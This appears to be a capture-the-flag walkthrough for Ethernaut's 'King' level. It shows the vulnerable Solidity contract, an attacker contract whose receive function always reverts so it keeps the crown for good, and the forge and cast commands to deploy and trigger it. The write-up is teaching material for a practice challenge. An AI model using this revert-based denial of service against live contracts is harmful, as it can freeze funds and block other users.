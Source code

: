 ## King Level Outline

**Difficulty : 6/10**

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x43BA674B4fbb8B157b7441C2187bCdD2cdF84FD5)

## Solution
The contract espects to be interacting with an EOA but we can force a revert and keep the crown if we make a malicious contract the king.

To make sure that we keep the crown when someone tries to claim it. We create a malicious fallback function in our contract which will revert after receiving ETH effectively keeping our malicious contract as the King.

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract ImposterKing {
    address king;

    constructor(address _king) payable {
        king = _king;
    }

    function claimCrown() public payable {
        payable(king).call{value: msg.value}("");
    }

    receive() external payable {
        revert("I will keep the crown :)");
    }
}
```

##### 2. Deploy our new contract
```console
forge create src/Contract.sol:ImposterKing --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

##### 3. Finding the current value of prize to see how much we need to overthrow the current king
```console
cast call $LEVEL_ADDRESS "prize()" | cast --to-dec
```
output
```console
1000000000000000
```
> take note that this is the value of prize in wei, meaning that we need to send more than 1000000000000000wei to become the new king

##### 4. Call the "claimCrown()" function on our newly deployed contract along with some eth
```console
cast send $DEPLOYED_ADDRESS "claimCrown()" --value 1000000000000001wei --gas 80000 --private-key=$PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

### [:arrow_left: Back To Main Menu](../README.md)
